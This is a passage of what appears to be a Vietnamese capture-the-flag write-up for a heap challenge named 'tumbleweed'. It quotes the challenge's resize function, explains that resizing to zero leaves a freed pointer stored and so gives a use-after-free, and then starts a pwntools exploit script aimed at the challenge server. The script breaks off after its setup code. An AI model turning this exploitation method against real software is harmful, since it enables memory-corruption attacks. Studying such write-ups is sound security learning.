 3, Resize: Thay đổi size của một chunk với index, target size, allocator được chỉ định. Có thông báo cho biết có resize thành công hay không. Tuy nhiên khi debug mình thấy tác động của chức năng này là không rõ ràng lắm.

```rust
fn resize() !void {
    var idx: usize = undefined;
    var new_size: usize = undefined;

    try stdout.print("Which incubator? ", .{});
    idx = readNonNegativeInt(tumbleweed_incubators.len) catch {
        try stdout.print("Invalid index!\n", .{});
        return technical_difficulty;
    };

    try stdout.print("Target size: ", .{});
    new_size = readNonNegativeInt(0) catch {
        try stdout.print("Invalid size!\n", .{});
        return technical_difficulty;
    };

    const heap_idx = chooseHeap() catch {
        try stdout.print("Invalid heap choice!\n", .{});
        return technical_difficulty;
    };

    if (heaps[heap_idx].resize(tumbleweed_incubators[idx].?, new_size)) {
        try stdout.print("Resize success!\n", .{});
    } else {
        try stdout.print("Resize failed!\n", .{});
    }
}
```

4, Give up: thoát chương trình (có return).

### Một vài nhận xét
+ Ở chức năng resize không kiểm tra trường hợp khi `new_size` = 0, tương ứng với free, lúc này con trỏ chunk vẫn được lưu trong mảng `tumbleweed_incubators` nên ta có lỗi use-after-free.
+ Các allocator được sử dụng là C, Page, SMP và Fixed Buffer. Để cho đơn giản và quen thuộc thì chúng ta sẽ chỉ sử dụng duy nhất C allocator, như vậy các hành vi của heap sẽ dễ dự đoán hơn.

## Khai thác
Dựa vào những nhận xét trên, quy trình khai thác bài này sẽ như sau:  
1, Tạo các wrapper cần thiết cho tương tác

```python
#!/usr/bin/python3
from pwn import *

context.binary = elf = ELF("./tumbleweed_patched", checksec = False)
libc = ELF("./libc.so.6", checksec = False)

# con = process()
con = remote("tumbleweed.chal.pwni.ng", 1337)

def debug_from_here():
    gdb.attach(con, gdb_args=['-ex', 'init-gef'], gdbscript = '''
        b*0x10037f8
        b*0x100417f
    ''')
    input()

def alloc0(idx, size, payload):
    con.sendlineafter(b'[4] Give up\n> ', b'0')
```